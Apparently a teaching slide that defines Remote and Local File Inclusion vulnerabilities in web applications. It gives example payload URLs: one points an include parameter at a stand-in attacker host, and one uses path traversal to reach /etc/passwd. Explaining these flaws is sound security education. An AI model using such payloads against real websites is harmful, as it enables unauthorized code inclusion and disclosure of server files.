

Remote File Inclusion: This vulnerability is caused when the application’s include functions accepts remote file path.
Eg: https://www.example.com?language=English
 https://www.example.com?language=https://www.attacker.com/file
Local File Inclusion: include files are loaded on the basis of user-controllable data, but it is not possible to specify a URL to a file on an external server. Through LFI, we may access server-executable files on the server that you cannot access through the normal route. We may also be able to access static resources on the server that are protected from direct access.
https://www.example.com?language=../../etc/passwd